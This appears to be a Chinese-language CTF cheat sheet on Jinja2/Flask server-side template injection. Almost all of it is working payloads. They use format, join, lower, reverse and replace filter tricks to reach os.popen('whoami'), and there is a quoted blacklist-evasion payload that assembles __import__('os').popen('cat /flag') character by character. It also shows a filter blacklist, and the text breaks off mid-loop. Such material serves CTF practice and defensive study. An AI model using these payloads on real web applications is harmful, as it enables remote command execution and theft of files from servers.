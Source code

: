 利用模板过滤器**format**

```python
{{config["%c%c%c%c%c%c%c%c%c"|format(95,95,99,108,97,115,115,95,95) ].__init__.__globals__['os'].popen('whoami').read() }}
```

过滤器**join**,**lower**还有 **replace reverse** 

```python
{{config[('__clas','s__')|join].__init__.__globals__['os'].popen('whoami').read() }}
{{config["__CLASS__"|lower].__init__.__globals__['os'].popen('whoami').read() }}
{{config["__ssalc__"|reverse].__init__.__globals__['os'].popen('whoami').read() }}
{{config["__claee__"|replace("ee","ss")].__init__.__globals__['os'].popen('whoami').read() }}
```

 **string** +  **select** 组合

```python
().__class__   => <class 'tuple'>
(().__class__|string)[0] => <
()|select|string => <generator object select_or_reject at 0x0000022717FF33C0>

(()|select|string)[24] => _
(()|select|string)[15] => c
(()|select|string)[20] => l
(()|select|string)[6] => a
(()|select|string)[18] => s
```

## 模板过滤器妙用

```python
blacklist = ['class', 'attr', 'mro', 'base','request', 'session', '+', 'add', 'chr', 'ord', 'redirect', 'url_for', 'config', 'builtins', 'get_flashed_messages', 'get', 'subclasses', 'form', 'cookies', 'headers', '[', ']', '\'', '"', '{}']
```

> 下面来自y1ng师傅
>
>  https://www.gem-love.com/ctf/2598.html

```python
#Author：颖奇L'Amore
# 从 globals 里把 eval 函数找出来，然后构造任意字符串放进去 RCE
{% set xhx = (({ }|select()|string()|list()).pop(24)|string())%}  # _
{% set spa = ((app.__doc__|list()).pop(102)|string())%}  #空格
{% set pt = ((app.__doc__|list()).pop(320)|string())%}  #点
{% set yin = ((app.__doc__|list()).pop(337)|string())%}   #单引号
{% set left = ((app.__doc__|list()).pop(264)|string())%}   #左括号 （
{% set right = ((app.__doc__|list()).pop(286)|string())%}   #右括号）
{% set slas = (y1ng.__init__.__globals__.__repr__()|list()).pop(349)%}   #斜线/
{% set bu = dict(buil=aa,tins=dd)|join() %}  #builtins
{% set im = dict(imp=aa,ort=dd)|join() %}  #import
{% set sy = dict(po=aa,pen=dd)|join() %}  #popen
{% set os = dict(o=aa,s=dd)|join() %}  #os
{% set ca = dict(ca=aa,t=dd)|join() %}  #cat
{% set flg = dict(fl=aa,ag=dd)|join() %}  #flag
{% set ev = dict(ev=aa,al=dd)|join() %} #eval
{% set red = dict(re=aa,ad=dd)|join()%}  #read
{% set bul = xhx*2~bu~xhx*2 %}  #__builtins__

#拼接起来 __import__('os').popen('cat /flag').read()
{% set pld = xhx*2~im~xhx*2~left~yin~os~yin~right~pt~sy~left~yin~ca~spa~slas~flg~yin~right~pt~red~left~right %} 


{% for f,v in y1ng.__init__.__globals__.items() %} #globals
```